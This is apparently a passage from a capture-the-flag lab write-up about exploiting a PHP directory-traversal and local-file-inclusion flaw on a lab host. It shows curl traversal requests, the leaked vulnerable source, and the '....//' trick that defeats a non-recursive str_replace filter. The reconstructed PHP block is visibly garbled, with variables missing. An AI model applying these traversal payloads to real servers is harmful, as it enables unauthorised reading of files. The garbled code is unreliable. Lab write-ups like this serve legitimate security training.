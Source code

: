 Let's try to read an arbitrary directory by specifying the directory above the current one (```../```):
```bash
curl -X POST --data "path=../" http://10.10.10.87/dirRead.php
```
![dirlist](screenshots/6_attempt_to_read_arbitrary_directory.PNG)
Since we see the PHP files (like ```dirRead.php``` and ```fileRead.php```) in the output, the PHP script is probably filtering strings like ```../```.

Let's try to read ```fileRead.php``` by calling ```fileRead.php```:
```bash
# Leaving the ../ in here to see if fileRead.php filters it as well.
# The echo -e "\n" on the end prints a new line after the output
curl -X POST --data "file=../fileRead.php" http://10.10.10.87/fileRead.php && echo -e "\n"
```
![fileRead.php](screenshots/7_reading_dirread.PNG)

That is a bit unreadable. We can use ```echo -e``` to clean this up by reading the escape sequences such as ```\n``` and ```\t```.
```bash
echo -e "<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"
```

```php
if(['REQUEST_METHOD'] === "POST"){
	['file'] = false;
	header('Content-Type: application\/json');
	if(isset(['file'])){
		header('Content-Type: application\/json');
		['file'] = str_replace( array("..\/", "..\""), "", ['file']);
		if(strpos(['file'], "user.txt") === false){
			 = fopen("\/var\/www\/html\/" . ['file'], "r");
			['file'] = fread(,filesize(['file']));  
			fclose();
		}
	}
	echo json_encode();
}
```
Much better.  So it looks like there is a local file inclusion vulnerability here.  However, there are some things that make this trickier for us.  As we suspected, any instance of ```../``` or ```..\``` is replaced with nothing, and it will only read a file if "user.txt" is not in the string we pass in.  It is similar for ```dirRead.php```.  Let's take a closer look at the line that does the filtering:
```php
['file'] = str_replace( array("..\/", "..\""), "", ['file']);
```
According to the documentation for ```str_replace```<sup>[1]</sup>, the function replaces all instances of the strings passed to it in the source string with the replacement string.  The trick is that the function does not work recursively.  That means that in the call above, "....//" becomes "../".  ```str_replace``` does not go through a second time to replace the resulting ```../```.  Basically, if we want to go up a directory, we just need to specify it this way: ```....//```.  This page<sup>[2]</sup> has other techniques to bypass filters like this.


[1]: http://php.net/manual/en/function.str-replace.php "str_replace Documentation (php.net)"
[2]: https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html "Bypassing Filter to Traversal Attacks"
[3]: https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/ "Restricted Linux Shell Escaping Techniques"
[4]: https://linux.die.net/man/7/capabilities "capabilities man page"
[5]: https://linux.die.net/man/1/tac "tac man page"